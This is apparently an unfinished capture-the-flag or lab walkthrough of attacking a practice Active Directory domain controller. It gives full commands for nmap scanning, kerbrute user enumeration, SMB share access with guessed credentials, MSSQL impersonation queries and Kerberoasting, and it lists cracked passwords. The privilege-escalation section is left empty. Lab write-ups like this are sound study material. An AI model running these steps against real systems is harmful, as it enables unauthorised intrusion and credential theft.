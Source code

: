 #WIP #Kerberoast 
```IP
192.168.163.40
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.163.40 -vvv -p- -oN enum/full
```
The output being:

```
PORT      STATE    SERVICE       REASON          VERSION
53/tcp    open     domain        syn-ack ttl 125 Simple DNS Plus  
80/tcp    open     http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open     kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-11-04 08:52:07Z)      
135/tcp   open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open     ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds? syn-ack ttl 125
464/tcp   open     kpasswd5?     syn-ack ttl 125
593/tcp   open     ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
1433/tcp  open     ms-sql-s      syn-ack ttl 125 Microsoft SQL Server 2019 15.00.2000.00; RTM 
1433/tcp  open     ms-sql-s      syn-ack ttl 125 Microsoft SQL Server 2019 15.00.2000.00; RTM 
3268/tcp  open     ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
3269/tcp  open     ssl/ldap      syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
3389/tcp  open     ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5985/tcp  open     http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8530/tcp  open     http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: 403 - Forbidden: Access is denied.
|_http-server-header: Microsoft-IIS/10.0
8531/tcp  open     unknown       syn-ack ttl 125
9389/tcp  open     mc-nmf        syn-ack ttl 125 .NET Message Framing
10916/tcp filtered unknown       no-response
14204/tcp filtered unknown       no-response
23471/tcp filtered unknown       no-response
28033/tcp filtered unknown       no-response
28854/tcp filtered unknown       no-response
33240/tcp filtered unknown       no-response
47001/tcp open     http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49670/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49675/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49684/tcp open     ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49685/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49693/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49700/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49701/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49712/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
58538/tcp open     ms-sql-s      syn-ack ttl 125 Microsoft SQL Server 2019 15.00.2000.00; RTM
```
## SMB
We start by enumerating smb shares, in which we find nothing except domain name `dhokkaido-aerospace.com` that we can add to `/etc/hosts`.
The complete computername would be dc.hokkaido-aerospace.com.
## Kerberos
If we perform a kerberos brute force attack on the target we can retrieve a list of users:
```
./kerbrute userenum --dc 192.168.242.40 -d hokkaido-aerospace.com /usr/share/seclists/Usernames/top-usernames-shortlist.txt
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104103122.png?raw=true)

Back to SMB, we can add to our password list the users found, and with `info:info` credentials we can retrieve some interesting shares:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104110745.png?raw=true)

We will now access homes share with smbclient tool as shown below:
```
smbclient //192.168.242.40/homes -U 'hokkaido-aerospace.com\info' --password='info'
```

Here we will find a list of names that we will inmediately add to our user list. In WsusContent share we can find the following file:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104111814.png?raw=true)

Which turns up to be empty. However in NETLOGON share we will find a password:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104114558.png?raw=true)

After adding it to our password list, we get a new hit:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104114656.png?raw=true)

## MSSQL
Moving on to MSSQL service we can assess the installed version: Microsoft SQL Server 2019 RTM 10.0.20348
As shown below, with `info:info` credentials and impacket-mssqlclient tool we can log in:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104113236.png?raw=true)

However, this approach results fruitless since we cannot impersonate other users or retrieve any interesting information. nonetheless, logging in with user credentials `discover:Start123!` we can impersonate and get another password:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

```
select name,create_date,modify_date,type_desc as type,authentication_type_desc as authentication_type,sid from sys.database_principals where type not in ('A', 'R') order by name;
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104121522.png?raw=true)

```
Untimed$Runny
```

Back to kerberos, we can now perform a kerberoast attack now that we have some credentials:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241104124749.png?raw=true)

As shown in the image above, we get some hashes that we can crack, which will result in the following password: `haze1988`.
## RPC
now we can access
```
rpcclient -U 'hokkaido-aerospace.com\Hazel.Green' --password='haze1988' 192.168.242.40
```
Angela.Davies is domainadmin
Alexandra.Little, Molly.Smith and Hazel.Green are IT members
Molly.Smith is Tear 1 admin
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241105130648.png?raw=true)

WIP
# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz



